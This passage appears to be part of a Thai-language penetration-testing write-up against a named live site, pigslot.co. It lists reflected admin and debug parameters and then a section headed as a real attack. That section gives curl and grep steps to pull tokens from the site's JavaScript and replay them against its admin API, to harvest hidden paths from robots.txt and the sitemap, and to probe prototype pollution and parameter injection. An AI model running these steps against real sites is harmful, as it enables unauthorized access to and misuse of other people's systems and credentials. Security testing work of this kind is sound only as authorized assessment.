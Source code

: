 3. **Admin Parameter Testing:**
   ```
   URL: https://pigslot.co/?admin=true
   URL: https://pigslot.co/?debug=1
   URL: https://pigslot.co/?isAdmin=1
   ผลลัพธ์: parameters reflected ใน response
   ```

**ผลกระทบ:**
- 🟡 Potential XSS ถ้ามีการ render โดยไม่ escape
- 🟡 Information disclosure ผ่าน error messages
- 🟡 ช่วยในการ reconnaissance สำหรับการโจมตีขั้นสูง

---

## 🔥 วิธีการทำ Live Attack (ขั้นตอนการโจมตีจริง)

### **Attack Vector 1: Token Extraction & Misuse**
```bash
# 1. Download JavaScript files
curl -k "https://pigslot.co/_next/static/chunks/pages/_app-5397473a77dbf94e.js" -o app.js

# 2. Extract tokens
grep -o 'token[^"]*"[^"]*"' app.js
grep -o 'access_token[^"]*"[^"]*"' app.js

# 3. Test tokens with APIs
curl -H "Authorization: Bearer <extracted_token>" "https://pigslot.co/api/admin"
```

### **Attack Vector 2: Hidden Endpoint Discovery**
```bash
# 1. Download reconnaissance files
curl -k "https://pigslot.co/robots.txt" -o robots.txt
curl -k "https://pigslot.co/sitemap.xml" -o sitemap.xml

# 2. Extract hidden paths
grep -i "admin\|login\|auth\|secret" robots.txt
xmllint --format sitemap.xml | grep -o 'https://[^<]*'

# 3. Test discovered endpoints
for endpoint in $(discovered_endpoints); do
    curl -k "$endpoint" -w "%{http_code} %{url_effective}\n"
done
```

### **Attack Vector 3: Parameter Injection Chain**
```bash
# 1. Test prototype pollution
curl -k "https://pigslot.co/?__proto__[polluted]=true"

# 2. Test admin parameter injection
curl -k "https://pigslot.co/?admin=true&debug=1&isAdmin=1"

# 3. Combine with POST requests
curl -k -X POST "https://pigslot.co/" -d "admin=true&debug=1"
```

---